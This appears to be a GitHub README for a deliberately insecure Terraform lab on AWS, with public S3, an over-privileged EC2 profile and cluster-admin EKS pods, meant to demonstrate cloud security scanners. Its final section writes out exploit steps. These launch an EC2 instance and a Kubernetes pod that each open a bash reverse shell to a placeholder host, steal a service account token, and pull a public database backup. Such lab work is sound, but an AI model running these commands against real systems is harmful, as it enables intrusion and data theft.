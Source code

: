 # Cloud Security AWS environement
This terraform project deploy EKS,EC2,S3,IAM and VPC without security best practices. This environement can be used to show the importance of cloud security posture management and cloud worload protection solutions

# Topology
![Screenshot](topology.PNG)

# Requirement
- AWS CLI access to the cloud account
- Kubectl installed
- Terraform installed

# Environment
The terraform project deploy the following resource on EC2
- The network infrastructure. VPC, subnets, IGW, route tables, security groups
- IAM roles and Policies
- S3 bucket publicaly accessible
- MongoDB installed on an EC2 instance. During the boot, we enable mongodb authentication, take a backup snapshot and store it on the S3 bucket. The ec2 instance has an instance profile which allow full access to aws ec2.
- EKS cluster with Node Group
- Wordrpress and Myql Pods. Wordress is exposed to internet via Kubernetes services with type loadbalancer. Pods has cluster admin rights.
- Open source vulnerability scanners. Kube-bench and kube-hunter

# Installation
The order is important
- Download the terraform project into a local machine
```sh
git clone https://github.com/imsed/cloud-security-aws-environement
cd cloud-security-aws-environement
```
- Deploy the infra module 
```sh
cd infra
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy the mongodb database on an ec2 instance
```sh
cd compute
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy EKS
```sh
cd eks
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy kubernetes pods
```sh
cd kubernetes
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```

- Deploy scanner jobs
```sh
cd scanners
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
# scanners
- You can scan the terraform project using IaC code security scanner like checkov.
```sh
cd ../cloud-security-aws-environement
checkov --directory cloud-security-aws-environement
```
- kube-bench (CIS benchmark). You can view the result of the scan 
```sh
kubectl logs kube-bench-xxx
```
- kube-hunter. You can view the result of the scan 
```sh
kubectl logs kube-hunter-xxx
```
# Exploit misconfiguration

- expoloit the ec2 instance profile from the mongodb ec2 instance
```sh
ubuntu@ip-172-31-13-230:~$ aws ec2 describe-instances

You can create a new ec2 with reverse shell to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)

ubuntu@ip-172-31-13-230:~$ more reverse-shell.sh
#!/bin/bash
bash -i >& /dev/tcp/a.b.c.d/27017 0>&1

ubuntu@ip-172-31-13-230:~$ aws ec2 run-instances --image-id ami-05a8c865b4de3b127 --instance-type t2.micro --user-data file://reverse-shell.sh --security-group-ids <security group id> --subnet-id <subent id> --region <aws region> 
```
- mongodb backups accessible from internet. You can install mongodb in your machine, dowbload the backup and then restore it
```sh
wget <url of the mongodb backup file from s3>
tar -xf mongodb-xxxx.tar
mongorestore mongodb-xxxx
```
- Permissive RBAC permissions. From the wordpress pod you can excute curl command agains the EKS cluster.
```sh
aws eks update-kubeconfig --region <aws region> --name  "name of the eks cluster you deployed"
kubectl exec -it wordrepss... -- bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
##List all pods running on EKS
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods/
##create a new pod with a reverse shell code to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods \
  -X POST \
  -H 'Content-Type: application/yaml' \
  -d '---
  apiVersion: v1
  kind: Pod
  metadata:
    labels:
      run: mongoclient
    name: mongoclient
  spec:
    containers:
    - image: mongo
      name: mongoclient
      command: ["/bin/bash"]
      args: ["-c","bash -i >& /dev/tcp/a.b.c.d/27017 0>&1"]
'


```
